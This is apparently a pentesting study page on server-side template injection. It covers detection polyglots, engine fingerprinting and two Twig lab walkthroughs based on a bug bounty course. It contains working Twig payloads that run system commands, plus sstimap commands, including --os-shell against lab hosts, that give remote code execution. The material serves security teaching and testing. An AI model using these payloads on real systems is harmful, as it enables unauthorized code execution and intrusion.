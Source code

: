 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSTI

{% hint style="info" %}
Server-Side Template Injection (SSTI) is a vulnerability where an attacker injects malicious template code into server-side templates, which is then executed by the server.
{% endhint %}

{% hint style="danger" %}
This can lead to remote code execution, data exposure, and unauthorized access, as attackers can manipulate the server-side template engine to run arbitrary code.
{% endhint %}

{% hint style="success" %}
Validate and sanitize all user inputs, avoid using untrusted data in templates, and restrict the template engine's features to limit the potential impact of injections.
{% endhint %}

> _**Template Engines** are used to display dynamically generated content on a web page. They replace the variables inside a template file with actual values and display these values to the client._&#x20;

## Identification

### Manual

We can use polyglots to induce errors. The **error polyglot** produces an error message to 44 template engines. However, errors might be caught by the application. The **non-error polyglots** are constructed in such a way that at least one of them does not throw an error, but renders the polyglot modified for all popular template engines.

```bash
# The error polyglot
<%'${{/#{@}}%>{{
# Non-error polyglots
">[[${{1}}]]
<%=1%>@*#{1}
{##}/*{{.}}*/
```

```
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

<figure><img src="../../../.gitbook/assets/ssti_portswigger_diagram.png" alt=""><figcaption><p>Figure 1: Identifying template engines (<em>image taken from</em> <a href="https://portswigger.net/web-security/server-side-template-injection"><em>here</em></a>).</p></figcaption></figure>

### Automatic

Tools like [TInjA](https://github.com/Hackmanit/TInjA), [SSTImap](https://github.com/vladko312/sstimap), and [j2ee-scan](https://github.com/PortSwigger/j2ee-scan) (Burp Pro) can automatically test for SSTI flaws by injecting combinations of special characters in template expressions (`${{<%[%'"}}%\`). Vulnerability indicators include:

* Thrown errors, revealing the vulnerability and potentially the template engine.
* Absence of the payload in the reflection, or parts of it missing, implying the server processes it differently than regular data.
* **Plaintext Context**: Distinguish from XSS by checking if the server evaluates template expressions.
* **Code Context**: Confirm vulnerability by altering input parameters. For instance, changing `greeting` in `http://vulnerable-website.com/?greeting=data.username` to see if the server's output is dynamic or fixed, like in `greeting=data.username}}hello` returning the username.

## Examples

### Twig

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Following the methodology outlined [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#detection), we can see that we are dealing with a Twig engine (Figure 2).

```bash
# payload used
${{<%[%'"}}%\.
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_1.png" alt=""><figcaption><p>Figure 2: Using a polyglot to detecting the engine.</p></figcaption></figure>

We can also confirm that we are dealing with either a Twig or Jinja2 engine  by following the steps outlined on Figure 1 (Figure 3).

```bash
# payloads used
{{7*7}} # 49
{{7*'7'}} # 49
```

<figure><img src="../../../.gitbook/assets/web_ssti_basic_1.png" alt=""><figcaption><p>Figure 3: Testing for SSTI.</p></figcaption></figure>

To make sure that this is indeed an SSTI and not a client-side, we can view the source code and check if the result is `49` or `{{7*'7'}}`.

```html
<div>
    <hr><h3>Your message:</h3>49                </div>
</div>
```

Next, we can try any Twig-specific payload from this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig) and achieve RCE[^1] (Figure 4).

```bash
# payloads used
{{['id']|filter('system')}}
{{['pwd']|filter('system')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_2.png" alt=""><figcaption><p>Figure 4: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

The above process could be automated using [`sstimap`](https://github.com/vladko312/SSTImap).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x01.php" --data 'greeting=*' --engine twig --method POST
<SNIP>

[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://localhost:81/ssti0x01.php
[*] Testing if Body parameter 'greeting' is injectable
[*] Twig plugin is testing rendering with tag '*'
[+] Twig plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: greeting
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```
{% endcode %}

### Twig (2)

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time when we try different payloads they just print in the page. However, when we `Edit Card` and `Save Changes`, a `POST` request is generated (Figure 5).

<figure><img src="../../../.gitbook/assets/web_ssti_twig_3.png" alt=""><figcaption><p>Figure 5: A potential location for SSTI.</p></figcaption></figure>

When we inject the payload within the `Edit Card`, it gets executed (Figure 6).

<figure><img src="../../../.gitbook/assets/web_ssti_twig_4.png" alt=""><figcaption><p>Figure 6: Performing a successful SSTI.</p></figcaption></figure>

Next, we can use `sstimap` to achieve RCE[^2] (Figure 7).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x02.php" --data 'cardHtml=*' --engine twig --method POST --os-shell
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_ssti_twig_5.png" alt=""><figcaption><p>Figure 7: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Theory" %}
{% embed url="https://hackmanit.de/en/blog-en/178-template-injection-vulnerabilities-understand-detect-identify" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
{% endtab %}

{% tab title="SSTI Table" %}
{% embed url="https://cheatsheet.hackmanit.de/template-injection-table/" %}
{% endtab %}
{% endtabs %}

[^1]: Remote Code Execution

[^2]: Remote Code Execution
